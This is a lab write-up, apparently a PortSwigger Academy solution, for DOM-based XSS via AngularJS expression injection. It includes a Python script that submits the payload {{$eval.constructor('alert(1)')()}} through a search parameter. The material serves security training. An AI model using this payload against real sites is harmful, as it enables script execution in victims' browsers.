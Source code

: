 ```yaml
---
title: 'XSS Lab 11'
description: 'DOM-based XSS exploiting AngularJS expressions when angle brackets and double quotes are HTML-encoded'
---
```



## DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

<div style="text-align: justify;">
  This lab demonstrates a DOM-based cross-site scripting (XSS) vulnerability in an AngularJS expression embedded inside the page's HTML (via an `ng-app` directive). When user input is reflected into AngularJS-scanned nodes, it's possible to execute JavaScript by injecting an AngularJS expression inside double curly braces — even if angle brackets and double quotes are encoded by the application.

  The goal is to craft an AngularJS expression that invokes `alert(1)` when evaluated. The payload used takes advantage of constructor access on an Angular object to call `alert(1)`.

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The application reflects the search input inside an element scanned by AngularJS (an element with an `ng-app` directive).
- AngularJS evaluates expressions contained within `{{ ... }}`. If attacker-controlled input is placed here, an expression can be executed.
- Because angle brackets and double quotes are HTML-encoded, injecting a `<script>` is not necessary — an Angular expression is sufficient.
- The injected expression uses a constructor call on a built-in Angular object to reach the global `alert` function and execute `alert(1)`.
- Submitting the payload via the search box and triggering the search causes AngularJS to evaluate the expression and run the alert.

</div>

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = "{{$eval.constructor('alert(1)')()}}"

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```